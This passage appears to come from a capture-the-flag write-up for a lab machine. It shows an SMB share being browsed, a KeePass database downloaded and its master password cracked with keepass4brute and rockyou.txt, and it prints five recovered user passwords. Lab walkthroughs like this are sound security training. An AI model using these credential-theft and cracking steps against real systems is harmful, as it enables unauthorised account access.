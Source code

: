 ```bash
Password for [WORKGROUP\levi.james]:  
smb: \> ls  
.  DR 0 2025-09-15 15:01  
.. D 0 2025-03-08 10:52  
KeePassXC-2.7.9-Win64.msi A 34394112 <SNIP>
Projects D 0 <SNIP>
recovery.kdbx A 2677 <SNIP>

smb: \> get KeePassXC-2.7.9-Win64.msi  
smb: \> get recovery.kdbx  
```

- DEV share contains KeePass installer and recovery.kdbx file.
    

```bash
file recovery.kdbx
```

```bash
recovery.kdbx: Keepass password database 2.x KDBX
```

- KeePass database detected.

If we try to bruteforce the recovery.kdbx with john it fails:
```
keepass2john recovery.kdbx  
! recovery.kdbx : File version '40000' is currently not supported! 
```

We can use this tool to crack the password for the recovery db: [https://github.com/r3nt0n/keepass4brute.git](https://github.com/r3nt0n/keepass4brute.git "https://github.com/r3nt0n/keepass4brute.git")

```bash
keepass4brute/keepass4brute.sh recovery.kdbx rockyou.txt
```

```bash
[*] Password found: liverpool
```

- KeePass database password recovered: `liverpool`

![puppy_2](https://gianlucabassani.github.io/assets/puppy/puppy_2.jpg)

Here the extracted credentials:
`ADAM SILVER : HJKL2025!`  
`ANTONY C. EDWARDS : Antman2025!`  
`JAMIE WILLIAMSON : JamieLove2025!`  
`SAMUEL BLAKE : ILY2025!`  
`STEVE TUCKER : Steve2025!`

---

### SMB Login Validation
